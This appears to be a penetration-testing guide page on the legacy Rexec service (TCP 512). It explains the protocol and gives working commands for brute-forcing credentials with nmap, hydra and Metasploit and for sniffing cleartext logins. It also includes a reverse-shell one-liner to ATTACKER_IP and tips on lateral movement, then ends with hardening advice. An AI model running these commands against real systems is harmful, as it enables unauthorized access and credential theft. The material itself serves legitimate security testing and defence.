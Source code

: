 # 512 - Pentesting Rexec

{{#include ../banners/hacktricks-training.md}}

## Basic Information

Rexec (remote **exec**) is one of the original Berkeley *r*-services suite (together with `rlogin`, `rsh`, …).  It provides a **remote command-execution** capability **authenticated only with a clear-text username and password**.  The protocol was defined in the early 1980’s (see RFC 1060) and is nowadays considered **insecure by design**.  Nevertheless it is still enabled by default in some legacy UNIX / network-attached equipment and occasionally shows up during internal pentests.

**Default Port:** TCP 512 (`exec`)

```
PORT    STATE SERVICE
512/tcp open  exec
```

> 🔥  All traffic – including credentials – is transmitted **unencrypted**.  Anyone with the ability to sniff the network can recover the username, password and command.

### Protocol quick-look

1. Client connects to TCP 512.
2. Client sends three **NUL-terminated** strings:
   * the port number (as ASCII) where it wishes to receive stdout/stderr (often `0`),
   * the **username**,
   * the **password**.
3. A final NUL-terminated string with the **command** to execute is sent.
4. The server replies with a single 8-bit status byte (0 = success, `1` = failure) followed by the command output.

That means you can reproduce the exchange with nothing more than `echo -e` and `nc`:

```bash
(echo -ne "0\0user\0password\0id\0"; cat) | nc <target> 512
```

If the credentials are valid you will receive the output of `id` straight back on the same connection.

### Manual usage with the client

Many Linux distributions still ship the legacy client inside the **inetutils-rexec** / **rsh-client** package:

```bash
rexec -l user -p password <target> "uname -a"
```

If `-p` is omitted the client will prompt interactively for the password (visible on the wire in clear-text!).

---
## Enumeration & Brute-forcing

### [**Brute-force**](../generic-hacking/brute-force.md#rexec)

### Nmap

```bash
nmap -p 512 --script rexec-info <target>
# Discover service banner and test for stdout port mis-configuration

nmap -p 512 --script rexec-brute --script-args "userdb=users.txt,passdb=rockyou.txt" <target>
```
The `rexec-brute` NSE uses the protocol described above to try credentials very quickly .

### Hydra / Medusa / Ncrack

```bash
hydra -L users.txt -P passwords.txt rexec://<target> -s 512 -t 8
```
`hydra` has a dedicated **rexec** module and remains the fastest offline bruteforcer .  `medusa` (`-M REXEC`) and `ncrack` (`rexec` module) can be used in the same way.

### Metasploit

```
use auxiliary/scanner/rservices/rexec_login
set RHOSTS <target>
set USER_FILE users.txt
set PASS_FILE passwords.txt
run
```
The module will spawn a shell on success and store the credentials in the database .

---
## Sniffing credentials

Because everything is clear-text, **network captures are priceless**.  With a copy of the traffic you can extract creds without touching the target:

```bash
tshark -r traffic.pcap -Y 'tcp.port == 512' -T fields -e data.decoded | \
  awk -F"\\0" '{print $2":"$3" -> "$4}'  # username:password -> command
```

(In Wireshark enable *Decode As …​* TCP 512 → REXEC to view nicely-parsed fields.)

---
## Post-Exploitation tips

* Commands run with the privileges of the supplied user.  If `/etc/pam.d/rexec` is mis-configured (e.g. `pam_rootok`), root shells are sometimes possible.
* Rexec ignores the user’s shell and executes the command via `/bin/sh -c <cmd>`.  You can therefore use typical shell-escape tricks (`;`, ``$( )``, backticks) to chain multiple commands or spawn reverse shells:
  ```bash
  rexec -l user -p pass <target> 'bash -c "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"'
  ```
* Passwords are often stored in **~/.netrc** on other systems; if you compromise one host you may reuse them for lateral movement.

---
## Hardening / Detection

* **Do not expose rexec**; replace it with SSH.  Virtually all modern *inetd* superservers comment the service out by default.
* If you must keep it, restrict access with TCP wrappers (`/etc/hosts.allow`) or firewall rules and enforce strong per-account passwords.
* Monitor for traffic to :512 and for `rexecd` process launches.  A single packet capture is enough to detect a compromise.
* Disable `rexec`, `rlogin`, `rsh` together – they share most of the same codebase and weaknesses.

---


## References

* Nmap NSE `rexec-brute` documentation – [https://nmap.org/nsedoc/scripts/rexec-brute.html](https://nmap.org/nsedoc/scripts/rexec-brute.html)
* Rapid7 Metasploit module `auxiliary/scanner/rservices/rexec_login` – [https://www.rapid7.com/db/modules/auxiliary/scanner/rservices/rexec_login](https://www.rapid7.com/db/modules/auxiliary/scanner/rservices/rexec_login)
{{#include ../banners/hacktricks-training.md}}
